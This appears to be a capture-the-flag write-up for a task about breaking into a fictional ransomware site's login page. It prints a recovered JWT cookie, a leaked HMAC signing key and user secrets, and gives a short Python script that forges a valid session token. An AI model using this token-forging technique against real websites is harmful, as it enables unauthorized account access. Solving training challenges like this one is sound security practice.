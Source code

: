 # Task 6

## Description

We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

Generate a new token value which will allow you to access the ransomware site.

## Solution

The file from task 5 contained the details for a cookie that is used on the `ransommethis.net` website. This cookie, named `tok` is assumed to be used for authenticating the users for the website.

```
# Netscape HTTP Cookie File
jbjlxkyofmpcxooy.ransommethis.net	FALSE	/	TRUE	2145916800	tok	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTQ4Mzg3MDMsImV4cCI6MTY1NzQzMDcwMywic2VjIjoiV1JlQXNabkM4YXRFRUxkQVBwY0lzMHlIQ0x6cVBpMWEiLCJ1aWQiOjI2NTY3fQ.Qn5LtF2XCtKOPLkGzPfrLG7WTMFwvnNihI_yzIJDAYk 
```

The provided token is a JSON Web Token Containing two time stamps for creation and expiration as well as the `uid` and `sec`, which are used for authenticating the user.

![](./img/jwt.png)

The flask source code shows that the token is using a signing key which needs to be used when forging a token. Additionally, it shows that if the signature is valid, then SQLite3 is used to verify the `uid` and `sec`.

![](./img/sessionlogic.png)

Using all of the information gathered from JWT and the source code, I wrote a simple python script to generate a fresh token that has not yet expired.

```python
import jwt
from datetime import datetime, timedelta

hmac = 'hionYjaULMZE4sZnrWj4nzkEjmDUAdsb'
now = datetime.now()
exp = now + timedelta(days=30)

claims = {
    'iat': int(now.timestamp()),
    'exp': int(exp.timestamp()),
    'uid': 26567,
    'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
}

tok = jwt.encode(claims, hmac, algorithm='HS256')

print(tok)
```

After generating the token and adding it to the current session, access is granted.

![](./img/homepage.png)
